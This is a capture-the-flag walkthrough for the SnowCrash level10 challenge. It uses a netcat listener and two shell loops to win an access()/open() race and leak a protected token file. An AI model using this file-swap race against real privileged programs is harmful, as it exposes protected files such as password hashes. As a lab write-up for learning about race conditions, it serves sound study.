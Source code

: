 ## Walkthrough :

+ i started by executing **./level10**, this prints the usage 
```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```
+ tryied **strings level10** , the server is trying to connect to a host in 6969 port.
+ launched **netstat -l** the port wasn't open. so i opened it using :
```
nc -lk 6969
```
* i noticed the use of **access function** which gives the possiblity of a security hole.
	##### description from stackexchange:
	+ *It is a race condition. You do the access(), then you do the open(). In the small time between the two calls, the file may have changed. Typically, the file is, say, /tmp/foo. Initially, the file is owned by some user (who is the bad guy of the story), and the target is some root-powered application. The application does the access(), sees that the file really belongs to the user, and thus thinks: "that's fine, it's his file, I can process it on his behalf". Then the bad guy quickly replaces the file with a symbolic link to /etc/shadow. The application has already taken the decision to open /tmp/foo, but when it does, it really opens and processes /etc/shadow*

```
#!/bin/sh

while true
do
	mv token tmp
	mv file token
	mv tmp file
done
```

```
#!/bin/sh

while true
do
	./level10 file 0.0.0.0
done
```


## Ressources :
+ [race condition](https://web.ecs.syr.edu/\~wedu/Teaching/IntrCompSec/LectureNotes_New/Race_Condition.pdf)  
+ [access() Security Hole](https://stackoverflow.com/questions/7925177/access-security-hole)